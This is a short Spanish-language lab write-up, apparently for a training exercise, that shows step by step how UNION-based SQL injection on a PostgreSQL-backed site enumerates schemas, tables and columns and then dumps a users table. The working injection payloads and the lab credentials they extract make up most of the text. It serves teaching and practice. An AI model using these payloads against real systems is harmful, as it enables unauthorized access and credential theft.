

En este laboratorio tendremos que obtener las credenciales y un usuario para el panel, para poder ingresar


Luego de testear si el sitio web es vulnerable y obtener el numero de columnas de la consulta podemos enumerar las bases de datos.

```c
' UNION SELECT NULL,SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA--
```

Las base de datos que encontramos son:

```c
information_schema
public
pg_catalog
```

Enumeramos las tablas de la base de datos `public`

```c
' UNION SELECT NULL,concat(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='public'--
```

La tabla mas interesante es:

```c
users_tfwutl
```

Teniendo la tabla podemos enumerar las columnas

```c
Pets' UNION SELECT NULL,concat(COLUMN_NAME) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users_tfwutl' AND table_schema='public'--
```

En la tabla `users_tfwutl` encontraremos las siguientes columnas

```c
email
password_asolxf
username_dvwvhv
```

Luego podemos los datos de las columnas de `username_dvwvhv` y `password_asolxf`

```c
Pets' UNION SELECT NULL,concat(password_asolxf,':',username_dvwvhv) FROM users_tfwutl--
```



Las credenciales que obtenemos son las siguientes:

```c
5ioo396gjqa2rj62iedr:administrator
4mu7ry6821m5fbk6nwxv:wiener
9xk9bm2thl7y9o8aerae:carlos
```
